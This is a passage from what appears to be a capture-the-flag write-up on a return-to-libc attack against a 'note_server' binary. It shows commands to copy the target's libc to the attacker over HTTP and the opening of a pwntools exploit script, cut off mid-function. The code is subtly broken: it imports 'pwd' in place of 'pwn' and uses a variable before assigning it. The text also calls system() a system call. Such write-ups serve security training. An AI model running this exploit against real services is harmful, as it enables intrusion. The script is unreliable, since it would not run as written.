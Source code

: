 ![image-20201105174415052](/assets/img/image-20201105174415052.png)

We see that `libc-2.32.so` is loaded, and since there are countermeasures for buffer overflows, and since the stack canary is enabled, it is time for a [return to libc attack](https://www.youtube.com/watch?v=m17mV24TgwY). To do so, we need to make the program to return, after the executed function, to the `system` system call indexed in the `libc` library, which is `libc-2.27.so` on the box. We can retrieve that version with:

```bash
# On victim
locate libc | grep "\.so$"
cp <libc> /tmp && cd /tmp
python3 -m http.server
# On attacker
wget "http://10.10.10.195:8000/<libc>"
```

Then, we have to execute the `ret2libc` attack knowing the offset of the system call on the exact version of libc. To do so, we need (with an active `ssh` tunnel):

```python
from pwd import *

# Define basic variables and files location (to get some offsets)
HOST = "127.0.0.1"
PORT = 5001
LIBC = "./libc-2.27.so"
EXEC = "./note_server"

# https://pwntools.readthedocs.io/en/stable/context.html
context(os="linux", arch="amd64")
# https://pwntools.readthedocs.io/en/stable/tubes.html
con = remote(HOST,PORT)

def deliv(data):
	con.send(p8(1))
	con.send(p8(len(data)))
	con.send(data)

def write_to(val=0):
	if val == None:
		val = len(app_len)
	while val < 1024:
		app_len = min(255, 1024 - val)
		app_data = cyclic(app_len)
		deliv(app_data)
		val += app_len


```